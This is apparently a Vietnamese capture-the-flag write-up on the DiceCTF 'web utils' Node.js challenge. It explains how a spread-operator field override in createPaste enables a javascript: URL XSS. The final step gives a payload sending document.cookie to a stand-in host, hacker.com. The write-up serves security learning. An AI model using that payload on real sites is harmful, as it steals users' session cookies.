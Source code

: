 # web utils
Do giải này diễn ra vào dịp tết nên mình không chơi trong thời gian giải diễn ra được mà chỉ khi giải đã kết thúc được 2 ngày và mình cũng cọ xong bộ ghế vs bàn ở nhà thì mới liếc qua được.

Bài này được cho source bằng node.js. Cùng tóm tắt qua một số chức năng của web nào

Đầu tiên là file index.js 

![img1](https://github.com/Cl0wnK1n9/diceCTF/blob/main/img/Capture1.JPG)

Khi truy cập vào các đường dẫn như /api/ hoặc /view/ thì server sẽ tự động gọi các hàm từ /routers/api/ hoặc /routers/view/ để xử lý requests

Chúng ta sẽ tiếp tục đi vào api.js và bỏ qua view.js vì nó chỉ render view.html lên mà thôi chứ không làm gì nhiều .

![img2](https://github.com/Cl0wnK1n9/diceCTF/blob/main/img/Capture2.JPG)

đầu tiên là createLink, hàm này được thực thi khi có 1 POST request đến đường dẫn /api/createLink/ nó sẽ kiểm tra xem url mới được tạo ra có bắt đầy bằng https hay không nếu đúng thì sẽ add vào database còn không thì sẽ trả về thông bào lỗi `Invalid URL`

Tiếp theo là createPaste, hàm này được thực thi khi có 1 POST request đến đường dẫn /api/createPaste/ đầu tiên hàm này sẽ tạo ra 1 chuỗi uid ngẫu nhiên gồm 8 ký tự sau đó add thẳng dữ liệu vào trong database. Thế thôi :v

Cuối cùng là hàm lấy dữ liệu, hàm này được thực thi khi có 1 POST request đến đường dẫn /api/data/`uid` với uid là tham số. Hàm này sẽ lấy dữ liệu trừ database và trả về kết quả bao gồm `statusCode:200`, `data` nội dung dữ liệu và `type` là kiểu dữ liệu.

Đối với việc xử lý dữ liệu với database đều sử dụng prestatement nên không có chỗ sql injection. 

![img3](https://github.com/Cl0wnK1n9/diceCTF/blob/main/img/Capture3.JPG)

Hãy cùng xem dữ liệu được hiển thị như nào trong file view.html

![img4](https://github.com/Cl0wnK1n9/diceCTF/blob/main/img/Capture4.JPG)

Sử dụng 1 đoạn js để lấy dữ liệu từ /api/ `const res = await fetch(``${window.origin}/api/data/${id}``);` 

sau đó kiểm tra trường `data` và `type` trong json được trả về. Nếu không có 1 trong 2 trường này thì sẽ redirect về trang chủ. Nếu `type` là `link` thì sẽ redirect đến đường dẫn trong `data` ( ở đây là shorten link được tạo ra ). Các trường hợp còn lại sẽ hiển thị dữ liệu `data` ra thẻ div. Well `document.querySelector('div').textContent = data;` đoạn này đã khiến những thứ như `<>` ... sẽ bị html encode và hiển thị như 1 text nên không thể thực hiện xss trực tiếp từ đây. Tuy nhiên mình để ý đến 2 điều trong đống source code này đầu tiên chính là hàm tạo paste mới và thứ 2 chính là khi `type==='link'` thì sẽ set lại giá trị cho window.location. `<= không biết chấm hết câu sao cho hợp lý luôn .-.`

Đầu tiên cùng đi sâu vào hàm tạo paste mới (createPaste)

`database.addData({ type: 'paste', ...req.body, uid });` đây là đoạn code sẽ ghi dữ liệu vào trong database. Nhưng bạn để ý nhé dầu `...` việc sử dụng `...` sẽ định nghĩa `req.body` là 1 object và đồng thời sẽ ghi đè lên những tham số trước đó nếu nó bị trùng ( xem thêm tại [đây](https://oprea.rocks/blog/what-do-the-three-dots-mean-in-javascript/) ). Điều đó có nghĩa là mình hoàn toàn có thể điều khiển được `type` thành `link` và như ở trên mình đã nói khi `type==='link'` thì sẽ set lại giá trị cho window.location và nếu giá trị của window.location là `javascript:alert(1)` thì sẽ xảy ra xss. 

Và đây là kết quả: 

![img5](https://github.com/Cl0wnK1n9/diceCTF/blob/main/img/Capture5.JPG)

![img6](https://github.com/Cl0wnK1n9/diceCTF/blob/main/img/Capture6.JPG)

sau đó lấy cookie bằng n cách khác nhau cách của mình là `window.location="https://hacker.com?a="%2bdocument.cookie`

![img7](https://github.com/Cl0wnK1n9/diceCTF/blob/main/img/Capture7.JPG)
